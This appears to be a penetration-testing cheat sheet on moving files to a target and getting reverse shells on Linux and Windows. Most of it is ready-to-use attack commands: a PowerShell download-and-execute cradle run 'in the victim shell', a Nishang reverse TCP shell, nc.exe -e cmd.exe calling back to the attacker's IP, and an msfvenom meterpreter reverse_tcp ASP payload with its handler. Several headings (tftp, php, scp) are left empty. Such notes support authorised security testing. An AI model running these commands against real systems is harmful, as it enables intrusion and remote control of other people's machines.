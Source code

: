 #### Linux 

###### wget
wget [url/with/file] -p [local/path]

###### curl
curl -O [url/with/file]

##### nc
nc -lvp [port] > sending.file

##### tftp

##### php

##### scp 

#### Windows 

##### Nishang
- git clone [Nishang](https://github.com/samratashok/nishang)
- edit InvokePowerShellTcp.ps1 /nishang/Shells/
paste *Invoke-PowerShellTcp -Reverse -IPAddress [your_ip] -Port [your_port]* on bottom of the file.
- run python HTTP server
  -python -m SimpleHTTPServer 443
  -python3 -m http.server 443
-In the victim shell: 
  powershell iex(new-object net.webclient).downloadstring('http://[your_ip:port]/Invoke-PowerShellTcp.ps1')
  
##### Netcat
- smbserver.py  
git clone [impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)

- create directory (for example test)
cp nc.exe to test

- run smbserver
python smbserver.py test smb

- run local nc
nc -lnvp 443

-In the victim shell
\\[your_ip]\test\nc.exe -e cmd.exe [your_ip]

##### Meterpreter
- create msfvenom payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[you_ip] LPORT=[your_port] -f asp > rs.asp

- use mstfconsole
exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost, lport and run

- execute reverse shell
curl http://10.10.10.5/rs.asp
